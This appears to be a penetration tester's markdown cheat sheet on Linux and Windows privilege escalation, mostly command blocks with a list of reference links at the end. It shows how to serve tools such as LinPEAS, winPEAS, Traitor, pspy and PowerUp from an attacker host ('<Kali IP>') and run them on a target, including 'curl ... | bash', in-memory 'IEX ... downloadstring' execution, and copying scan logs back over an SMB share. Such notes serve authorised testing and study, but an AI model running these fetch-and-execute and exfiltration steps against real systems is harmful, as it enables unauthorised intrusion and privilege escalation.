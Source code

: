 # Privilege Escalation

## Linux

- HTTP

Host the file
```
cd /opt/linux_privesc
sudo python -m http.server 80
```


### LinPEAS

```
curl http://<Kali IP>/linpeas.sh | bash
```
or
```
wget http://<Kali IP>/linpeas.sh
bash linpeas.sh
```

### LinEnum.sh

```
curl http://<Kali IP>/LinEnum.sh | bash
```
or
```
wget http://<Kali IP>/LinEnum.sh
bash LinEnum.sh
```

### linuxprivchecker.py

```
wget http://<Kali IP>/linuxprivchecker.py
python linuxprivchecker.py
```

### Trator

```
wget http://<Kali IP>/traitor-amd64
chmod +x traitor-amd64
./traitor-amd64 -a
```

### pspy

```
wget http://<Kali IP>/pspy64s
chmod +x pspy64s
./pspy64s
```


## Windows

### winPEAS

- HTTP

Host the file
```
cd /usr/share/windows-resources/binaries
sudo python -m http.server 80
```

Copy on Target and execute
```
Invoke-WebRequest -Uri 'http://<Kali IP>/winPEASany.exe' -OutFile <Path>\winPEASany.exe
<Path>\winPEASany.exe
```
Or execute direct on memory
```
IEX(New-Object Net.WebClient).downloadstring('http://<Kali IP>/winPEASany.exe')
```

- SMB

Host the file
```
cd /usr/share/windows-resources/binaries
impacket-smbserver share $(pwd) -smb2support
```

```
net use \\<Kali IP>\share
copy \\<Kali IP>\share\winPEASany.exe .
winPEASany.exe
```
or
```
xcopy \\<Kali IP>\share\winPEASany.exe C:\Temp\winPEAS\

cd C:\Temp\winPEAS
C:\Temp\winPEAS\winPEASany.exe > C:\Temp\winPEAS\winPEAS.log

xcopy C:\Temp\winPEAS\winPEAS.log \\<Kali IP>\share\
```


### PowerUp

- HTTP

Host the file
```
cd /usr/share/windows-resources/powersploit/Privesc/
sudo python -m http.server 80
```

Copy on Target and execute
```
Invoke-WebRequest -Uri 'http://<Kali IP>/PowerUp.ps1' -OutFile <Path>\PowerUp.ps1
Import-Module <Path>\PowerUp.ps1
Invoke-AllChecks
```
Or execute direct on memory
```
IEX(New-Object Net.WebClient).downloadstring('http://<Kali IP>/PowerUp.ps1')
Invoke-AllChecks
```

- SMB

Host the file
```
cd /usr/share/windows-resources/powersploit/Privesc/
impacket-smbserver share $(pwd) -smb2support
```

```
net use \\<Kali IP>\share
copy \\<Kali IP>\share\PowerUp.ps1 .
Import-Module .\PowerUp.ps1
Invoke-AllChecks
```
or
```
xcopy \\<Kali IP>\share\PowerUp.ps1 C:\Temp\PowerUp\

Import-Module C:\Temp\PowerUp\PowerUp.ps1
Invoke-AllChecks
```



# Links

- [Basic Linux privilege escalation](https://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation/)
- [Linux - Privilege Escalation](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Linux%20-%20Privilege%20Escalation.md)
- [LinEnum.sh](https://github.com/rebootuser/LinEnum/blob/master/LinEnum.sh)
- [linuxprivchecker.py](https://github.com/sleventyeleven/linuxprivchecker)
- [Trator](https://github.com/liamg/traitor)
- [GTFOBins](https://gtfobins.github.io/)
- [pspy](https://github.com/DominicBreuker/pspy)